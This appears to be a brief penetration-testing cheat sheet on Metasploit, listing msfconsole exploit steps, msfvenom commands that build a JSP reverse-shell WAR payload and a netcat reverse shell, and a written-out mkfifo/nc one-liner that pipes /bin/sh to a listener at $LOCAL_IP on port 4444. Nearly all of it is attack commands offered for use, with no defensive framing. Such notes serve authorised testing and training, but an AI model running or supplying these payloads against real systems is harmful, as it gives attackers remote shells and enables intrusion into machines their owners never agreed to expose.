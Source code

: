 
MSFconsole
---
```
search $TARGET_SERVICE
use X
show options
set LHOST
set RHOST
exploit
shell
```

See payload options:

```shell
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```shell
msfvenom -p cmd/unix/reverse_netcat RHOST=192.168.66.136 RPORT=4444 R
```

```shell
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

